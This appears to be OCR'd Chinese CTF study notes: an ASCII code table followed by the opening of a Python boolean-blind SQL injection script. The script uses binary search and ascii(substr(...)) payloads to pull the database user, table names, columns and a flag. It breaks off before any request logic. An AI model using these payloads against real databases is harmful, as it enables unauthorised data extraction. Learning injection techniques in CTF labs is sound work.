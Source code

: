 | 57     | 00111001 | 071    | 39       | 9      | 105    | 01101001 | 151    | 69       | i      |
| 58     | 00111010 | 072    | 3A       | :      | 106    | 01101010 | 152    | 6A       | j      |
| 59     | 00111011 | 073    | 3B       | ;      | 107    | 01101011 | 153    | 6B       | k      |
| 60     | 00111100 | 074    | 3C       | <      | 108    | 01101100 | 154    | 6C       | l      |
| 61     | 00111101 | 075    | 3D       | =      | 109    | 01101101 | 155    | 6D       | m      |
| 62     | 00111110 | 076    | 3E       | >      | 110    | 01101110 | 156    | 6E       | n      |
| 63     | 00111111 | 077    | 3F       | ?      | 111    | 01101111 | 157    | 6F       | o      |
| 64     | 01000000 | 100    | 40       | @      | 112    | 01110000 | 160    | 70       | p      |
| 65     | 01000001 | 101    | 41       | A      | 113    | 01110001 | 161    | 71       | q      |
| 66     | 01000010 | 102    | 42       | B      | 114    | 01110010 | 162    | 72       | r      |
| 67     | 01000011 | 103    | 43       | C      | 115    | 01110011 | 163    | 73       | s      |
| 68     | 01000100 | 104    | 44       | D      | 116    | 01110100 | 164    | 74       | t      |
| 69     | 01000101 | 105    | 45       | E      | 117    | 01110101 | 165    | 75       | u      |
| 70     | 01000110 | 106    | 46       | F      | 118    | 01110110 | 166    | 76       | v      |
| 71     | 01000111 | 107    | 47       | G      | 119    | 01110111 | 167    | 77       | w      |
| 72     | 01001000 | 110    | 48       | H      | 120    | 01111000 | 170    | 78       | x      |
| 73     | 01001001 | 111    | 49       | I      | 121    | 01111001 | 171    | 79       | y      |
| 74     | 01001010 | 112    | 4A       | J      | 122    | 01111010 | 172    | 7A       | z      |
| 75     | 01001011 | 113    | 4B       | K      | 123    | 01111011 | 173    | 7B       | {      |
| 76     | 01001100 | 114    | 4C       | L      | 124    | 01111100 | 174    | 7C       |        |
| 77     | 01001101 | 115    | 4D       | M      | 125    | 01111101 | 175    | 7D       | }      |
| 78     | 01001110 | 116    | 4E       | N      | 126    | 01111110 | 176    | 7E       | ~      |
| 79     | 01001111 | 117    | 4F       | O      | 127    | 01111111 | 177    | 7F       | (删除) |

从32开始到127是可打印字符，所以后续脚本可以采用这个范围

```python
#布尔盲注脚本，二分法
import requests
url = '' #url
flag = ''

for i in range(1, 50):
    l,r = 32, 127
    while l < r:
        mid = (l+r) // 2
        # where id = 1
        #爆用户名
        #payload = f'2-if(ascii(substr((select user()), {i}, 1))<={mid}, 1, 0)'
        
        #爆表名  
        #payload = f'2-if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()), {i}, 1))<={mid}, 1, 0)'
        
        #爆列名
        # payload = f'2-if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name=\'f1ag\'), {i}, 1))<={mid}, 1, 0)'
        
        #爆flag
```